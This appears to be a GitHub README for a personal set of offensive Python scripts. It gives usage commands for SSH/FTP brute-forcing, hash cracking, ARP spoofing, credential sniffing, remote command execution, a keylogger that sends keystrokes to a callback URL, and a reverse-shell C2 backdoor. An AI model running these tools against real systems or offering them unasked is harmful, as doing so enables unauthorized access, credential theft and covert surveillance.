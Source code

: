 # A collection of my custom Python Scripts

Everything seems pretty self explanatory. There scripts are standalone, so duplicates of code are unavoidable.

Some extra packages may need to be installed in order for these to work.

There are more sophisticated tools out there that can perform the same functionalities or even better but coding custom tools is always a good mental exercise. You can also get an idea of how these tools, you might be using, work.

**Working with Python >= 3 version**

## Port Scanner

Usage examples:

`python3 portscan.py --host 192.168.1.1 --port 80`

*To specify multiple ports*

`python3 portscan.py --host 192.168.1.1 --port 21,22,25,80`

*To specify a range of ports*

`python3 portscan.py --host 192.168.1.1 --port 1-1000`

*Returns a table of results similar to the nmap.*

## SSH Bruteforcer

Usage examples:

`python3 sshbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt`

*To specify another SSH service port*

`python3 sshbrute.py --host 192.168.1.1 --port 22 --usr usersfile.txt --pwd passfile.txt`

*To reset your session before bruteforce*

`python3 sshbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt --rst`

*Returns a successful user:pass combination.*

## FTP Bruteforcer

Usage examples:

`python3 ftpbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt`

*To specify another FTP service port*

`python3 ftpbrute.py --host 192.168.1.1 --port 21 --usr usersfile.txt --pwd passfile.txt`

*To try anonymous login too on top of wordlist bruteforce*

`python3 ftpbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt --anon`

*To reset your session before bruteforce*

`python3 ftpbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt --rst`

*Returns a successful user:pass combination.*

## Hash Cracker

**Available methods md5, sha1, sha256, sha512**

`python3 hashcracker.py --hash 21232f297a57a5a743894a0e4a801fc3 --method md5 --list userlist.txt`

*Returns a successful plaintext string if cracked*

## Hash Bruteforcer

**Available methods md5, sha1, sha256, sha512**

`python3 hashcracker.py --hash 21232f297a57a5a743894a0e4a801fc3 --method md5`

*Specify a minimum or maximum length for bruteforcing*

`python3 hashcracker.py --hash 21232f297a57a5a743894a0e4a801fc3 --method md5 --minlength 4 --maxlength 8`

*Specify a custom character set for bruteforcing*

`python3 hashcracker.py --hash 21232f297a57a5a743894a0e4a801fc3 --method md5 --minlength 4 --maxlength 8 --chars ABCDabcd1234!@#`

*Returns a successful plaintext string if cracked*

## Mac Changer

*Display your current MAC Address*

`python3 macchanger.py`

`python3 macchanger.py -c`

*Specify an interface*

`python3 macchanger.py -c -i eth0`

*Generate a Random MAC Address on a specified interface (optional)*

`python3 macchanger.py -r -i eth0`

*Manually set a MAC Address on a specified interface (optional)*

`python3 macchanger.py -n 00:11:22:33:44:55 -i eth0`

## ARP Spoofer

*Spoof your target IP with your source IP*

`python3 arpspoofer.py --dst 192.168.1.2 --src 192.168.1.5`

### Remote Execute

*Executes specified commands remotely to specified hosts*

`python3 remote_execute.py -i test.com -c whoami -u root`

`python3 remote_execute.py -i hosts.txt -c cmds.txt -u www-data`

### MAC Sniff

*Sniff traffic and revolve source and destination MAC addresses from packets*

`python3 macsniff.py`

### Credential Sniff

*Sniff plaintext credentials on a specified interface, protocol and port for simple protocols*

*This works for HTTP too but you might have some increased output due to headers such as User-Agent* 

`python3 credsniff.py -p 21`

`python3 credsniff.py -i eth0 -p 21 -t tcp`

### HTTP Credential Sniff

*Sniff plaintext credentials on a specified interface for HTTP requests only*

`python3 credsniff_http.py -i eth0`

### DNS Sniff

*Sniff all DNS queries performed on the specified interface*

`python3 dns_sniff.py -i eth0`

### Keylogger

*Capture keystrokes and send them to a ping back URL. You need to specify the URL inside the script.*

`python3 keylogger.py`

### C2

The c2 directory contains a POC backdoor example using a server and a reverse shell. You can modify the server
port according to your needs or by passing arguments.
You can execute commands as you would do in an msf shell for example.
Additionally you can `download`, `upload`, `cd` to any directory and `exit` the shell. \

Usage example: \
**Server** \
`python3 srv.py -p 8080 -i 0.0.0.0`

**Reverse Shell** \
`python3 rev_shell.py -p 8080 -i 0.0.0.0`
